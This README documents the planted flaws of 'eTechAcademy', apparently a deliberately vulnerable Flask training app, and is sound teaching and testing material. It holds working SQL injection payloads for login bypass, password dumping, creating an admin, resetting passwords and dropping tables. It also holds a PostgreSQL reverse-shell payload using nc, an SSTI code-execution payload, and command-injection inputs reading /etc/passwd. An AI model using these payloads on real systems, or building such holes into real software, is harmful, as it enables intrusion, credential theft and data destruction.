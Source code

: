 # eTechAcademy Flask App

## Vulnerabilities

### SQL Injection
#### Retrieve Data
Paths: `/login` and `/index`
Methods: `GET, POST`

**Examples:**
- Log into admin account with SQL
```
username: ' OR 1=1--
password: a

OR 

username: admin 
password: ' OR 1=1--
```

- Vulnerable query database on `/index`
```
' OR 1=1--
' UNION SELECT username,password FROM users--
' UNION SELECT username || '~' || password,role FROM users--
```
![SQL Injection](assets/index_sql_injection.png)
Resources: [Sqli CheatSheet](https://book.hacktricks.xyz/pentesting-web/sql-injection)


**SQL Fix:**
```
cur.execute("SELECT user_id, role FROM users WHERE username = %s AND password = %s", (username, password))
```

#### Insert/Update/Drop Data
**Examples**
Path: `/add_course`
Methods: `GET, POST`

*Note:* Must be **Instructor/Admin** role and you must select instructor and set image_path for this to work properly.
```
# Insert new admin user
New Course', 'Malicious Description', NULL, 'image.jpg'); INSERT INTO users (username, password, role) VALUES ('evil', 'evil', 'admin'); --

# Update admin password
New Course', 'test', NULL, 'test.jpg'); UPDATE users SET password = 'testing' WHERE username = 'admin'; --

# Drop table
New Course', 'test', NULL, 'test.jpg'); DROP TABLE courses CASCADE; --
```
![SQL Injection Query](assets/add_course_sql_query.png)
![SQL Injection Proof](assets/add_course_sql_proof.png.png)

#### RCE Via SQL Injection (Postgresql)
Path: `/add_course`
Methods: `GET, POST`

**Example:**
```
NewCourse', 'test', 1, 'test'); DROP TABLE IF EXISTS cmd_exec; CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f'; SELECT * FROM cmd_exec;--
```

### Server-Side Template Injection
Paths: `/search_course`
Methods: `GET, POST`

**Examples:**
```
{{ 7 * 7 }}
```

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![Server Side Template Injection](assets/course_ssti.png)
Other resources: [SSTI Cheatsheet](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Command Injection
Path: `/admin_dashboard/system_monitor`
Methods: `GET, POST`
*NOTE: Anyone can access this page. Code doesn't check for user or admin role.*
**Examples:**
```
whoami
cat /etc/passwd
```
![Command Injection](assets/command_injection.png)

### Forgot Password
Path: `/forgot_password`
Methods: `GET, POST`
Anyone can change password to any user since it doesn't authenticate existing user.
![](assets/forgot_password.png)

### Command Injection via API endpoint
Path: `/endpoint`
Methods: `POST`
![](assets/endpoint_script_exploit.png)

**Example**
```
python3 etechacademy_script.py --target <HOST> --port <PORT> --context endpoint --cmd <CMD>
curl -X POST http://<target>:<port>/endpoint -H "Content-Type: application/json" -d '{"command": "whoami"}'
```

### Unrestricted File Upload
Path: `/upload`
Methods: `GET, POST`

Can upload files to server with any extension. Once uploaded, you can execute the file it is has (*.php, .py, .sh*) extensions or delete the file.
![Upload File](assets/upload_file.png)

### Debug Shell
Path: `/debug`
Methods: `GET`

Debug shell to execute python commands on server.
![](assets/debug_shell.png)
